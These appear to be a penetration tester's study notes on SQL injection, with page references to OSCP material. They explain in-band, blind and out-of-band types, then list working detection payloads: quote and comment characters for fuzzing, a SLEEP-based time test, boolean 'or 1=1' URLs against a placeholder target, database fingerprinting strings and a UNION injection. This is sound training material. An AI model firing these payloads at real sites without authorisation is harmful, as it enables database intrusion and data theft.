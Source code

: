Operators Handbook pg 324
OSCP Book pg 756
## Types of SQL Injections
SQL injections typically fall under three categories: In-band SQLi (Classic), Inferential SQLi (Blind) and Out-of-band SQLi. You can classify SQL injections types based on the methods they use to access backend data and their damage potential.
### **In-band SQLi**
The attacker uses the same channel of communication to launch their attacks and to gather their results. In-band SQLi’s simplicity and efficiency make it one of the most common types of SQLi attack. There are two sub-variations of this method:
-   **Error-based SQLi**—the attacker performs actions that cause the database to produce error messages. The attacker can potentially use the data provided by these error messages to gather information about the structure of the database.
-   **Union-based SQLi**—this technique takes advantage of the UNION SQL operator, which fuses multiple select statements generated by the database to get a single HTTP response. This response may contain data that can be leveraged by the attacker.
### **Inferential (Blind) SQLi**
The attacker sends data payloads to the server and observes the response and behavior of the server to learn more about its structure. This method is called blind SQLi because the data is not transferred from the website database to the attacker, thus the attacker cannot see information about the attack in-band.
Blind SQL injections rely on the response and behavioral patterns of the server so they are typically slower to execute but may be just as harmful. Blind SQL injections can be classified as follows:
-   **Boolean**—that attacker sends a SQL query to the database prompting the application to return a result. The result will vary depending on whether the query is true or false. Based on the result, the information within the HTTP response will modify or stay unchanged. The attacker can then work out if the message generated a true or false result.
-   **Time-based**—attacker sends a SQL query to the database, which makes the database wait (for a period in seconds) before it can react. The attacker can see from the time the database takes to respond, whether a query is true or false. Based on the result, an HTTP response will be generated instantly or after a waiting period. The attacker can thus work out if the message they used returned true or false, without relying on data from the database.
### **Out-of-band SQLi**
The attacker can only carry out this form of attack when certain features are enabled on the database server used by the web application. This form of attack is primarily used as an alternative to the in-band and inferential SQLi techniques.
Out-of-band SQLi is performed when the attacker can’t use the same channel to launch the attack and gather information, or when a server is too slow or unstable for these actions to be performed. These techniques count on the capacity of the server to create DNS or HTTP requests to transfer data to an attacker.
---
https://exploit.ph/web-hacking/2014/12/02/sql-injections/
#### Detection
```
https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/SQL%20Injection#entry-point-detection
```
Try the following characters manually or in Burp Intruder where ever you see a parameter:
```
'
%27
"
%22
#
%23
,
%2C
;
%3B
)
' -- -
%27 -- -
" -- -
%22 -- -
# -- -
%23 -- -
; -- -
%3B -- -
) -- -
```
Notice how only the 18th payload has the same length as the baseline.  Meaning we should be able to manually load that payload `) -- - ` and the page would load correctly.
Test further with sleep:
```sql
&job=1)(SELECT * FROM (SELECT(SLEEP(5)))OQkj)#&minTime=1466674406.084434 -- -
```
#### Boolean Based Detection
Original URL:
```
http://$TARGET/view.php?id=1141
```
Quick injection test:
```
http://$TARGET/view.php?id=1141'
```
Same results if we change the parameter to something non existent.
```
http://$TARGET/view.php?id=9999
```
Testing for Boolean logic (True statement):
```
http://$TARGET/view.php?id=9999' or '1'='1
```
Page loads correctly!
Testing for Boolean logic (False statement):
```
http://$TARGET/view.php?id=9999' or '1'='2
```
Page does not load correctly!
#### Database Detection
MySQL MSSQL MariaDB testing:
```
'||(SELECT '')||'
```
Oracle testing:
```
'||(SELECT '' FROM dual)||'
```
If the page loads correctly, that should mean you found an injection point.
#### Union command injection
All we have to do here is utilize union for command injection:
```
) union select 'whoami' -- -
```
#### SQL Login bypass
Use Intruder (Battering ram) + PayloadAllTheThings:
[[SQL Payload]]
#### SQL Payloads
https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/SQL%20Injection
See Operators Handbook pg 60 for more!
#### MySql
[[1.2_MySQL]]
#### MariaDB
[[1.3_MariaDB]]
#### OracleDB
[[1.4_OracleDB]]
#### MSSQL
[[1.5_MSSQLDB]]
#### MongoDB
[[Port 27017 - MongoDB ~]]
